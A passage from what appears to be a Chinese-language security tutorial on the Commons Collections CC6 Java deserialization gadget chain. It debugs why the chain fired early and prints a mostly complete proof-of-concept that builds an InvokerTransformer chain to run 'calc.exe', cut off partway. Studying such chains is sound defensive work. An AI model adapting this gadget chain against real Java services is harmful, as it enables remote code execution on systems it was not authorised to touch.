 ```java
    }
}
```

但是没有弹出计算器。进行调试，我发现它在经过 HashMap#hash 方法后跳转到 String#hashCode 方法去了，

![1](/img/332.png)

同时发现 HashMap#hash 方法的 key 参数不为 TiedMapEntry  对象，这也导致后面无法命令执行

按道理是应该直接跳转到 HashMap#hashCode 方法，问题就是因为`expMap.put(tme, "valuevalue");`

因为在 HashMap 的 put ⽅法中，也调用到了 hash(key) ，

![1](/img/334.png)

这⾥就导致 LazyMap 这个利⽤链在这⾥被调⽤了⼀遍，而前面并没有将恶意的 transformers 替换进 transformerChain 类中，所以没有触发命令执行。

这里只需要将 keykey 这个 Key，再从 outerMap 中移除即可，最后POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //为了避免本地调试时触发命令执行,再构造LazyMap先用一个fakeTransformers对象,等最后要⽣成Payload的
        //时候，再把真正的 transformers 替换进去

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");//为了执行LazyMap#get方法
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");//为了执行HashMap#hash方法
        outerMap.remove("keykey");

        //将恶意的transformers替换进transformerChain类中
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
```